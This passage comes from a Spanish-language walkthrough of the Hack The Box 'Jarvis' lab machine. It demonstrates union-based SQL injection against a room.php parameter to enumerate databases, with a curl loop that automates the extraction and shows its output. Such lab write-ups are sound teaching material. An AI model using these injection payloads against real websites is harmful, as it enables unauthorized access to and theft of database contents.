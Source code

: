  ![""](/assets/images/htb-jarvis/jarvis-web5.png)

 - 10.10.10.143/room.php?cod=0 union select 1,2,schema_name,4,5,6,7 from information_schema.schemata limit 0,1-- - > Vemos las bases de datos en el servidor y vamos recorriendolas con `limit 0,1`, `limit 1,1`, `limit 2,1` y así sucesivamente. Por lo que tenemos las siguientes bases de datos:
	 - hotel
	 - information_schema
	 -  mysql
	 - performance_schema

Una forma de obtener las tablas sería con el siguiente comando:

```bash
❯ for i in $(seq 0 10); do echo "[*] DB $i: $(curl -s "http://10.10.10.143/room.php?cod=0%20union%20select%201,2,schema_name,4,5,6,7%20from%20information_schema.schemata%20limit%20$i,1--%20-" | grep "price-room" | awk '{print $2}' FS=">" | cut -d '<' -f 1)"; sleep 2; done
[*] DB 0: hotel
[*] DB 1: information_schema
[*] DB 2: mysql
[*] DB 3: performance_schema
[*] DB 4: 
[*] DB 5: 
^C#
```
